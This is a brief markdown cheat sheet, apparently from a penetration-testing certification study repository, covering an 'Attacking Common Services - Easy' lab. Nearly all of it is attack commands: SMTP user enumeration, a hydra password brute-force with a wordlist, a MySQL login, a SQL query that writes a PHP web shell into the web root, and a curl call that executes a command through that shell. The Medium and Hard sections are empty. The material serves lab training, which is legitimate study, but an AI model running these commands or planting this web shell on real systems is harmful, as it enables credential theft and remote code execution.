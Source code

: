 https://github.com/missteek/cpts-quick-references/blob/main/assessments/Password%20Attacks%20Lab%20-%20Hard.md


#### Attacking Common Services - Easy:
```
UserEnum:       smtp-user-enum -M RCPT -U users.txt -D inlanefreight.htb -t $ip
PW Bruteforce:  hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt $ip smtp
Login MySQL:    mysql -h $ip -u <user> -p <password>
SQL RCE:        SELECT "<?php if(isset($_GET['cmd'])){ echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; } ?>" INTO OUTFILE 'C:/xampp/htdocs/cmd.php';
Execution:      curl http://$ip/cmd.php?cmd=whoami
```
#### Attacking Common Services - Medium:
#### Attacking Common Services - Hard:
